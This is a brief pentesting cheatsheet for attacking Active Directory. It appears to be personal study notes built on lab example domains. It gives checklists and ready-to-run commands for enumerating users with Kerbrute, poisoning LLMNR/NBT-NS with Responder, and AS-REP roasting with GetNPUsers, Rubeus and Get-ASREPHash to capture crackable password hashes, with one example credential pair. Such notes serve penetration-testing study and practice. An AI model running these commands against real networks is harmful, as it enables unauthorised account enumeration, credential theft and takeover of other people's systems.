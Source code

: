 <hr>
<b>Enumeration checklist</b>
<hr>
<ul>
<li>Password Policy readable</li>
<li>Kebrute-able</li>
</ul>

Account Takeover Checklist

<ul>
<li>LLMNR/NTB-NS Poisionable</li>
<li>Vulnerable to ASREP-Roasting</li>
</ul>

<hr>
<b>Cheatsheet</b>
<hr>

<b>Enumeration</b>

<b>Kebrute-ing users</b>

Kerbrute uses pre-authentication to check if a given list of users is valid on the system.

<ol>
  <li>./kerbrute_linux_amd64 userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o kerb-results</li>
</ol>

  
Account takeover techniques

<b>LLMNR/NTB-NS Poisioning</b>

<ol>
  <li>responder -h</li>
</ol>

<b>ASREP-Roasting:</b>

Exploit technqiues:
<ol>
<li>python GetNPUsers.py CHANGEME.LOCAL/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast</li>
<li>python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast</li>
<li>.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]</li>
<li>Get-ASREPHash -Username VPN114user -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)</li>
</ol>

